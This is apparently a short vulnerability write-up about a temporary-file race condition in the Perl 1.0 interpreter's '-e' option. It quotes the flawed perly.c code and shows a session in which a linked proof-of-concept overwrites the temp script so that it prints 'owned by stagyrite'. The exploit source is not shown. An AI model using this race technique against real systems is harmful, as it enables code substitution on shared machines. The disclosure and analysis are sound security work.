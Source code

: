 The [Perl 1](https://github.com/stagyrite/Perl-1.0 "Stagyrite/Perl-1.0: 🐪 Perl Kit, Version 1.0") interpreter is vulnerable to an attack that has to do with temporary files. Race conditions exist when a program is passed with 'e' command line option. Here's an example traditional Hello World program.
```
$ ./perl -e 'print "hello, world\n";'
```
This creates a file like /tmp/perl-eO3gdPn that can be overwritten by an external process with another program in Perl language. It can for example print "owned by stagyrite" instead of "hello, world". There is a proof-of-example exploit named [Perl Harbor](https://gist.github.com/Stagyrite/2175863894712ae71c129f7012d34da3 "perl-harbor.c"). Let's observe how to use it against a Perl 1 interpreter in a sample session.
```
$ ./perl -e 'print "hello, world\n";'
hello, world
$ ./perl-harbor.c &
[1] 2146125
$ ./perl -e 'print "hello, world\n";'
owned by stagyrite
[1]+  Done                    ./perl-harbor.c
```
As one can see, Perl 1 isn't secure when it comes to handling temporary files with its programs. Our exploit managed to overwrite the user input. It might require several retries before the exploit succeeds in infecting the temporary file. It's because Perl 1 might overwrite the exploit's file too in one of the lines in perly.c.
```
  switch_end:
    if (e_fp) {
        fclose(e_fp);
        argc++,argv--;
        argv[0] = e_tmpname;
    }
```
The exploit has to write the file after the 'fclose()' function is called. The code below comes from the perly.c file, and shows how Perl 1 starts writing a temporary file.
```
        case 'e':
            if (!e_fp) {
                e_tmpname = strcpy(safemalloc(sizeof(TMPPATH)),TMPPATH);
                mktemp(e_tmpname);
                e_fp = fopen(e_tmpname,"w");
            }
            if (argv[1])
                fputs(argv[1],e_fp);
            putc('\n', e_fp);
            argc--,argv++;
            break;
```
One might want to replace a call to function 'mktemp()' with 'mkstemp()' but that wouldn't fix this particular security issue at all.

